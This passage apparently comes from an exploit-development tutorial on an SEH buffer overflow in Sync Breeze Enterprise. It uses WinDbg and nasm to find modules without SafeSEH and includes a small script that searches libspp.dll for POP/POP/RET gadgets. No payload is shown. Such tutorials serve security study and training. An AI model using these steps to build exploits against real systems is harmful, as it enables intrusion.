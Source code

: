 ```bash
0:010> !load narly

0:010> !nmod
00400000 00463000 syncbrs              /SafeSEH OFF                C:\Program Files\Sync Breeze Enterprise\bin\syncbrs.exe
00540000 00614000 libpal               /SafeSEH OFF                C:\Program Files\Sync Breeze Enterprise\bin\libpal.dll
00820000 008d5000 libsync              /SafeSEH OFF                C:\Program Files\Sync Breeze Enterprise\bin\libsync.dll
10000000 10226000 libspp               /SafeSEH OFF                C:\Program Files\Sync Breeze Enterprise\bin\libspp.dll

```

The "libspp.dll" seem to be perfect.

Now, we need to search a P/P/R instruction sequence inside the module. To do it we need to retrieve the start and end memory address.

```bash
0:010> lm m libspp
Browse full module list
start    end        module name
10000000 10226000   libspp     (deferred)             
```

Now we need to get all the possible opcodes for the POP instructions for each x86 register, excluding the stack pointer (ESP). And the opcode for the RET instruction.

```bash
┌──(v0lk3n㉿Laptop)-[/SEH-Overflow-Basic]
└─$ msf-nasm_shell
nasm > POP EAX
00000000  58                pop eax
nasm > POP EBX
00000000  5B                pop ebx
nasm > POP ECX
00000000  59                pop ecx
nasm > POP EBP
00000000  5D                pop ebp
nasm > POP EDX
00000000  5A                pop edx
nasm > POP ESI
00000000  5E                pop esi
nasm > POP EDI
00000000  5F                pop edi
nasm > ret
00000000  C3                ret
```

Create a little WinDbg script that will create every possible POP R32 combination and search for it inside the memory range of the module, and execute it.

```wds
.block  
{  
	.for (r $t0 = 0x58; $t0 < 0x5F; r $t0 = $t0 + 0x01)  
	{  
		.for (r $t1 = 0x58; $t1 < 0x5F; r $t1 = $t1 + 0x01)  
		{  
			s-[1]b 10000000 10226000 $t0 $t1 c3  
		}  
	}  
}
```
